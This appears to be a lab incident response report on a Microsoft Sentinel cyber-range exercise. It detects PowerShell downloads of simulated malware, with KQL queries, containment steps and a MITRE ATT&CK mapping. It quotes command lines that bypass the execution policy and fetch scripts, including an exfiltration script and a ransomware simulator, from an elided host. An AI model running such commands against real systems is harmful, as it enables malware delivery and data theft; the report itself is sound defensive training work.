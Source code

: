 🛡️ Incident Response Report – Haider Naqvi

Scenario: PowerShell Suspicious Web RequestFramework: NIST 800-61 (Computer Security Incident Handling Lifecycle)

🛠️ Step 1: Preparation

- Microsoft Sentinel and Microsoft Defender for Endpoint (MDE) were configured for log forwarding.
- DeviceProcessEvents logs were actively collected and ingested into Sentinel.
- Alert rule designed to detect PowerShell-based downloads using Invoke-WebRequest.
- Training provided to analysts on recognizing post-exploitation behavior.

Use Case Summary:

Sometimes when a bad actor has access to a system, they will attempt to download malicious payloads or tools directly from the internet to expand their control or establish persistence. This is often achieved using legitimate system utilities like PowerShell to blend in with normal activity. By leveraging commands such as Invoke-WebRequest, they can download files or scripts from an external server and immediately execute them, bypassing traditional defenses or detection mechanisms. This tactic is a hallmark of post-exploitation activity, enabling them to deploy malware, exfiltrate data, or establish communication channels with a command-and-control (C2) server. Detecting this behavior is critical to identifying and disrupting an ongoing attack.

🔍 Step 2: Detection and Analysis

Analytics Rule Configuration:

Rule Name: Haider - PowerShell Suspicious Web Request
Description: Detects usage of PowerShell to download files from the internet.
Severity: Medium
Run Frequency: Every 4 hours
Lookup Period: Last 24 hours
Entity Mapping:
- Account: AccountName
- Host: DeviceName
- Process: ProcessCommandLine
Incident Creation: Enabled
Group all alerts in one incident per 24 hours: Enabled
Stop query after alert: Enabled

🔹 Alert Rule KQL Query

let TargetHostname = "windows-target-1";
DeviceProcessEvents
| where DeviceName == TargetHostname
| where FileName == "powershell.exe"
| where InitiatingProcessCommandLine contains "Invoke-WebRequest"
| order by TimeGenerated

📃 Observed PowerShell Commands:

powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri 'https://.../exfiltratedata.ps1' -OutFile 'C:\programdata\exfiltratedata.ps1'
powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri 'https://.../eicar.ps1' -OutFile 'C:\programdata\eicar.ps1'
powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri 'https://.../pwncrypt.ps1' -OutFile 'C:\programdata\pwncrypt.ps1'
powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri 'https://.../portscan.ps1' -OutFile 'C:\programdata\portscan.ps1'

Simulated User Statement:

The user stated they tried to install a free utility and a black screen appeared briefly.

📊 Confirming Script Execution

let TargetHostname = "windows-target-1";
let ScriptNames = dynamic(["eicar.ps1", "exfiltratedata.ps1", "portscan.ps1", "pwncrypt.ps1"]);
DeviceProcessEvents
| where DeviceName == TargetHostname
| where FileName == "powershell.exe"
| where ProcessCommandLine contains "-File" and ProcessCommandLine has_any (ScriptNames)
| order by TimeGenerated
| project TimeGenerated, AccountName, DeviceName, FileName, ProcessCommandLine

🧬 Reverse Engineering Summary

- exfiltratedata.ps1 → Attempts to send files to external destination.
- eicar.ps1 → EICAR test file to trigger AV detection.
- pwncrypt.ps1 → Encrypts local files (simulated ransomware).
- portscan.ps1 → Scans network for open ports.

🛡️ Step 3: Containment, Eradication, and Recovery

Actions Taken:

- Isolated the affected VM using Microsoft Defender for Endpoint.
- Ran a full anti-malware scan.
- Verified no persistence mechanisms or lateral movement.
- Removed from isolation and restored to operational state.

Execution Findings:

- exfiltratedata.ps1 and portscan.ps1 were executed by local user account.
- exfiltratedata.ps1 attempted data transfer.
- portscan.ps1 performed local port scanning.

📓 Step 4: Post-Incident Activities

Lessons Learned:

- Affected user enrolled in enhanced cybersecurity awareness training.
- KnowBe4 training program frequency increased.
- Policy implemented to restrict PowerShell usage to admin users only.
- Updated Sentinel detection logic to reduce false positives and enhance script-based detection.

Incident Closure:

- Incident marked as "True Positive".
- Documentation completed.
- Case closed within Microsoft Sentinel.

🔗 MITRE ATT&CK Mapping

Technique ID

Name

Description

T1059.001

PowerShell

Execution of downloaded scripts using PowerShell

T1105

Ingress Tool Transfer

Tools/scripts downloaded from remote locations

T1071.001

Web Protocols

Use of HTTP/HTTPS for communication/download

T1562.001

Impair Defenses

Bypassing PowerShell execution policy
